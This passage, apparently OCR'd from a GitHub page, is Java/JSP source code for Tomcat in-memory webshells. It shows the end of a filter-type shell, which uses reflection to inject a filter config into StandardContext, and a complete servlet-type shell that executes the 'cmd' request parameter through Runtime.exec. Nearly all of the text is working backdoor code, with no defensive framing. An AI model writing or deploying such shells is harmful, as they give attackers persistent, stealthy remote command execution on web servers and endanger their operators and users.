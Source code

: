 ```java
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);
 
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
    filterConfigs.put(name, filterConfig);
%>
```



#### servlet型
```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
%>
 
<%!
 
    public class Shell_Servlet implements Servlet {
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
    }
 
%>
```